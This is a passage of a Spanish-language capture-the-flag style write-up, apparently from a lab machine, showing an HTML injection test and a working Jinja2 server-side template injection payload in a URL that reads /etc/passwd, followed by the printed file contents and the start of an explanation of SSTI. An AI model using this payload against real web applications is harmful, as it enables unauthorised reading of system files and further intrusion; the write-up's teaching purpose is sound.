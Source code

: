 ```
URL = http://<IP>:8089/?user=<h1 style='color:red;'>Hola</h1>
```

Como resultado vemos que funciona y se nos pone el `Hola` en color rojo y de tamaño grande.

Pero si probamos a realizar un `SSTI` veremos que tambien funciona:

```
URL = http://<IP>:8089/?user={{ get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read() }}
```

Info:

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:100:101::/nonexistent:/usr/sbin/nologin
sshd:x:101:65534::/run/sshd:/usr/sbin/nologin
verde:x:1000:1000::/home/verde:/bin/bash
```

#### **1. ¿Qué es SSTI (Server-Side Template Injection)?**

* SSTI ocurre cuando una aplicación web permite al usuario inyectar código malicioso en una plantilla que se procesa en el servidor.
* Los motores de plantillas como Jinja2 (en Python), Twig (en PHP) o Freemarker (en Java) procesan expresiones dinámicas en el lado del servidor.
* Si los datos del usuario no son correctamente sanitizados, pueden inyectar código arbitrario en el servidor.

***

#### **2. Análisis del Payload**

**`get_flashed_messages`**
